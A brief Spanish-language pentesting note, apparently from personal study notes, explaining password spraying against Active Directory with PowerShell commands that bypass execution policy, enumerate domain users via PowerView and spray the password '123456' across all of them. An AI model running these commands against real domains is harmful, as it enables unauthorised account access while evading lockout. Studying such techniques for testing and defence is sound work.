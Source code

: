 # Password Spraying 

Tags: #AD #Powershell #Windows #Enumeracion 

Técnica utilizada para adivinar simultáneamente las contraseñas de varias cuentas de usuario con un número reducido de intentos de contraseña. Su ventaja principal es proporcionar un método sigiloso para obtener acceso a varias cuentas de usuario sin activar el bloqueo de cuentas. 

```bash
❯ powershell -ep bypass                   # Politica que nos permite ejecutar scripts en Powershell
 	# ep = Ejecutar politicas 


# Enumeracion de usuarios 
❯ . .\PowerView.ps1                       # Importar el modulo PS1
❯ Get-DomainUser | select-Object -ExpandProperty cn | Out-File user.txt        # Enumeracion de usuarios y el resultado lo guardamos en un archivo llamado user.txt


❯ . .\DomainPasswordSpray.ps1             # Importar el modulo para 'Password Spraying' 
❯ Invoke-DomainPasswordSpray -UserList .\user.txt -Password 123456 -Verbose 
	# Password = Hacemos que la pasword '123456' la pruebe en todos los usuarios de la lista 'user.txt'
	# UserList = Lista de usuarios
```